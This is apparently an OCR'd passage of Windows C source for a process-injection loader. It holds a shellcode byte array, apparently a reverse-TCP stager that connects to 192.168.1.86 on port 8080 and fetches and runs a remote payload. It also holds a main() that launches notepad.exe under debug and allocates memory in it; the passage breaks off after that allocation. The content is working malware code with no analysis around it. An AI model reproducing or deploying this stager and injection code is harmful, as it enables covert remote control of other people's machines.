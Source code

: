 ```c
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58\x41\x58"
"\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x1f\x90\xc0\xa8\x01\x56\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";



int main() {
	// CreateProcess Variables
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));

	// It could be any application here
	LPCWSTR execFile = L"C:\\Windows\\notepad.exe";

	// CreateProcess in DEBUG State
	BOOL bCreateProcess = CreateProcess(execFile, NULL, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &si, &pi);

	if (bCreateProcess == FALSE) {
		printf("\nError Creating the Process: %d", GetLastError());
		return;
	}

	printf("Successfully created the process in Debug state\n");

	DWORD dwOldProtection = NULL;
	HANDLE hProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;
	SIZE_T dwSize = sizeof(Payload);
	SIZE_T sNumberOfBytesWritten = NULL;

	PVOID lpAlloc = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (lpAlloc == NULL) {
		printf("\nError Allocating the memory: %d", GetLastError());
		return -1;
```